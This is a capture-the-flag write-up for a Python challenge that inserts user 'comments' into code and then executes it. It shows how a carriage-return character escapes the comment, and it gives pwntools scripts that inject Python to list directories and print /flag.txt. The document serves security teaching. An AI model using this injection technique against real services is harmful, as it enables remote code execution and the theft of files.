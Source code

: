 # My Awesome Python Homework Assignment
Created by: caandt  
Writeup by: Ethan Andrews (UtahSec)

## Description
I just finished my programming assignment but I forgot to add comments! Can you add some comments to my homework so I don't lose points?

## Writeup
### Initial Looks
We are given a python file that has several parts. There is a block of code in a string that gets put into an array of 
code lines. Then there's a loop that queries the users for a line number and a comment, and then inserts that comment into
that specific line. Then it executes the code string as a python file.

### Code Analysis
Analyzing the code, we can see the area in which it inserts the user's input into the code.

![image](https://github.com/user-attachments/assets/ddbc3ea6-cba1-4f82-846a-9c1698466511)

So this code doesn't sanitize the user's input, and converts it to a comment by prepending the `#` character.

![image](https://github.com/user-attachments/assets/7eba1c08-a351-4444-a84d-51f682c43505)

We can try to screw with the logic by inserting a `\n` newline character as a comment, but we can clearly see that unfortunately
it's interpreting it as actual characters instead of the single newline character.

### PwnTools

Because it's interpreting the stdin from the terminal as string characters, we will need to programatically send bytes.
For this challenge, I will be using pwntools.

```python
from pwn import *

# Insert actual ip and port
p = remote(...)
```

The first thing we'll test is inserting a newline character followed by code to see if this works.

```python
# Send Line number
p.send(b"0\n")

# Send Comment Input
p.send(b"\nprint('Working DEADBEEF')\n")

# Send No More comments
p.send(b"N\n")

p.interactive()
```

However, running this, we see a problem.

![image](https://github.com/user-attachments/assets/6e306d35-c6af-4c8e-b9c1-81727a466064)

It didn't appear to work. The reason for this is because of how python's `input()` function works.

Python's `input()` function reads user input until it receives a newline character, then stops. So when we sent
`\nprint('Working DEADBEEF')`, it read the first newline character, and then stopped collecting user input.

So this means we can't use the newline character.

However, there is a separate special character that we can use: the carriage return character `\r`. This character
resets the cursor to the beginning of the current line and effectively overwrites the current line if more data is
printed. This is the essence of how progress bars work.

We can instead add `\r` to the beginning of our comment.

```python
# Send Line number
p.send(b"0\n")

# Send Comment Input
p.send(b"\rprint('Working DEADBEEF')\n")

# Send no more comments
p.send(b"N\n")

p.interactive()
```

We can see that it successfully added it to the code overwriting the comment.

![image](https://github.com/user-attachments/assets/03a98d7a-c59e-4802-8c93-9ac1d3bbdfef)

And we can see it being executed.

![image](https://github.com/user-attachments/assets/915559df-c015-4813-8e8a-f3998d6560a9)

### Finding the flag

Now that we have remote code execution, we need to find the flag. We'll start by listing out
the current directory.

```python
# import os
p.send(b"0\n")
p.send(b"\rimport os\n")
p.send(b"y\n")

# print the current directory
p.send(b"1\n")
p.send(b'\rprint("\\n".join(os.listdir(".")))\n')
p.send(b"n\n")

p.interactive()
```

Unfortunately, we only see a `run` file.

![image](https://github.com/user-attachments/assets/07e450a2-2bca-49af-8ab0-75cd6d3c52af)

Let's look at the base directory.


```python
# import os
p.send(b"0\n")
p.send(b"\rimport os\n")
p.send(b"y\n")

# print the current directory
p.send(b"1\n")
p.send(b'\rprint("\\n".join(os.listdir("/")))\n')
p.send(b"n\n")

p.interactive()
```

Here we see the flag file at the very top line.

![image](https://github.com/user-attachments/assets/eb851c71-1560-4143-b03c-4f2ba6cab554)

Then we just simply open and read in the flag located at `/flag.txt`.

```python
from pwn import *

# Insert actual ip and port
p = remote(...)

p.send(b"0\n")
p.send(b"\rprint(open(\"/flag.txt\").read())\n")
p.send(b"n\n")

p.interactive()
```

Here we can see the flag being printed out.

![image](https://github.com/user-attachments/assets/639823c1-5ec8-4e5e-8e7b-66ec872880c4)

## Important Concepts
- Carriage Return Character
- Python
- pwntools

